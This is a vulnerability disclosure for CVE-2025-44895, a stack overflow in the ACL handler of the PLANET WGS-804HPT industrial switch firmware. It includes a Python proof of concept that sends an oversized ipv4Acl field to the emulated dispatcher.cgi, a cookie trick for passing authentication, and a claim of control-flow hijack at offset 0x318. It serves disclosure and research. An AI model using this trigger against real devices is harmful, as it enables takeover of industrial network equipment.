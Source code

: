 ```yaml
---
title: web_acl_ipv4BasedAceAdd_post-ipv4Acl-StackOverflow
date: 2025-04-18 15:32:49
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44895



# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2





# web_acl_ipv4BasedAceAdd_post-ipv4Acl

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_acl_ipv4BasedAceAdd  contains a stack overflow vulnerability.

The stack overflow can be triggered by ipv4Aclkey value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-174514063849415.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250416151600679](../res/image-20250416151600679-17447880314529.png)





﻿The content of the **poc**.py file is as follows:

```json
import os


a = 0xC0E
var_name = "ipv4Acl"
b = 'a' * 0x300

poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)


command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)


```

![image-20250416151814991](res/image-20250416151814991-174478804293910.png)

Through IDA, it can be seen that the stack space is 0xb0.

![image-20250416152336647](../res/image-20250416152336647-174478821841413.png)

![image-20250416152851713](../res/image-20250416152851713-174478853300914.png)



![image-20250416152949388](../res/image-20250416152949388-174478859218115.png)

Through the above image, we can see that we have overflowed to 0x318 and successfully hijacked the control flow. If necessary, more can be overflowed.
